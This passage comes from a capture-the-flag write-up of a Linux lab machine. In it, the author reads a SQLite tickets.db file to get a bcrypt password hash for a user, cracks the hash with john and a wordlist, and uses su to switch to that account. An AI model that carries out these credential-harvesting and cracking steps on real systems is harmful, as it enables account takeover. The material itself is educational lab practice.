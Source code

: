 I then went through the contents of the __/var/www/editor__ directory. Going through the files I was not able to find any credentials or other items of interest. Navigating back to the __/var/www__ directory, there was a directory called __contact/__ that had a file called __tickets.db__. This file actually had hashed credentials for the Joshua user.

```bash
svc@codify:/var/www/contact$ cat tickets.db	
cat tickets.db 
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��	tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
��G�joshua$2a$12$SOn8Pf6z8fO..... (###time to do it yourself!###)
��
����ua  users
             ickets
r]r�h%%�Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open� ;�wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
```

The hash is using the bcrypt algorithm, so we need to specify that as the hashing algorithm in our hashcat command.

I first attempted to decrypt the hash using hashcat, this was taking way too long so I tried cracking the hash with john. Doing so quickly returned a match for the hash.

```bash
┌──(h0ax㉿kracken)-[~/htb/boxes/easy/codify]
└─$ john --wordlist=~/pentestin/wordlists/SecLists/rockyou.txt hash                
Created directory: /home/h0ax/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spon**************       (?)     (hash here!)
1g 0:00:00:46 DONE (2023-12-18 23:47) 0.02146g/s 28.98p/s 28.98c/s 28.98C/s crazy1..eunice
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

I then tried to switch to the Joshua user using the credentials and was successful. 

```bash
svc@codify:~$ su joshua
su joshua
Password: spon******

joshua@codify:/home/svc$
joshua@codify:/home/svc$ id
id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
joshua@codify:/home/svc$
joshua@codify:/home/svc$ cd ../joshua
cd ../joshua
joshua@codify:~$ ls -al
ls -al
total 32
drwxrwx--- 3 joshua joshua 4096 Nov  2 12:22 .
drwxr-xr-x 4 joshua joshua 4096 Sep 12 17:10 ..
lrwxrwxrwx 1 root   root      9 May 30  2023 .bash_history -> /dev/null
-rw-r--r-- 1 joshua joshua  220 Apr 21  2023 .bash_logout
```